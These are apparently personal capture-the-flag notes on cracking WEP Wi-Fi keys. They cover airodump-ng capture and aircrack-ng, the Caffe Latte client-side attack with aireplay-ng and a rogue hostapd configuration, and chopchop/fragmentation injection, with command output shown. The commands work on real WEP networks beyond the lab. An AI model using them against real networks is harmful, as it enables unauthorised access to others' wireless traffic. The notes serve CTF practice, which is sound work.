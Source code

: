 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

```
sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon

wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words

sudo aircrack-ng -w cyberpunk.words derp0-01.cap
```

## Caffe Latte (WEP, no AP)

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:
It helps to know the channel, which is more of an art and needs tweaking by playing with airodump to find what the target is looking for.

```
airodump-ng -w cafefile --output-format pcap --band a -c 44 wlan29mon
```

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

to specify the channel, the interface needs to be brought up in airodump with channel specified.

```
aireplay-ng --caffe-latte -h 02:00:00:00:1E:00 -b 00:13:10:30:24:9C -D wlan30mon

    -h is our card MAC address
    -b is the Access Point MAC (any valid MAC should work)
    -D disables AP detection.
```

find our own mac with `iw dev`

^ This didn't work for me at DefCon 2020

According to another member used hostapd instead of aireplay

```
interface=wlan31mon
ssid=WCTF_03
channel=44
hw_mode=a
#mana_wpaout=hostapd.hccapx
wep_default_key=1
wep_key1="abcde"
wep_key_len_broadcast="5"
wep_key_len_unicast="5"
wep_rekey_period=300
auth_algs=3
```

put that into my_ha.conf

hostapd my_ha.conf starts the beacon and the original airodump will capture enough IVs for aircrack



## Client-less WEP

Attempts at "chochop/fragmentation"

```
aireplay-ng -1 0 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -5 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -4 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -1 1000 -o 1 -q 10 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon
```

😬 The way Ted did it for RFHS_RFCTF_02:
aireplay -4 running on wlan28
sup running on 27 with a bs key
you can ignore the steps after -4 runs(edited)
i just cracked it with that small amount of data
i never got the inject to work

supplicant:
```
┌──(root💀efa43d97627c)-[~/rf]
└─# cat sups.conf 
network={
        ssid="RFHS_RFCTF_02"
        key_mgmt=NONE
        wep_key0="12345"
        wep_tx_keyidx=0
}

┌──(root💀efa43d97627c)-[~/rf]
└─# wpa_supplicant -i wlan31 -c sups.conf 
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
wlan31: SME: Trying to authenticate with 00:dc:63:ed:5d:00 (SSID='RFHS_RFCTF_02' freq=5220 MHz)
nl80211: kernel reports: key not allowed
wlan31: Trying to associate with 00:dc:63:ed:5d:00 (SSID='RFHS_RFCTF_02' freq=5220 MHz)
wlan31: Associated with 00:dc:63:ed:5d:00
wlan31: CTRL-EVENT-CONNECTED - Connection to 00:dc:63:ed:5d:00 completed [id=0 id_str=]
wlan31: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
^Cnl80211: deinit ifname=p2p-dev-wlan31 disabled_11b_rates=0
p2p-dev-wlan31: CTRL-EVENT-TERMINATING 
wlan31: CTRL-EVENT-DISCONNECTED bssid=00:dc:63:ed:5d:00 reason=3 locally_generated=1
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: deinit ifname=wlan31 disabled_11b_rates=0
wlan31: CTRL-EVENT-TERMINATING 
```

Might not even need the `-4` step. It seems the supplicant forces the AP to make enough data to capture w/ airodump??
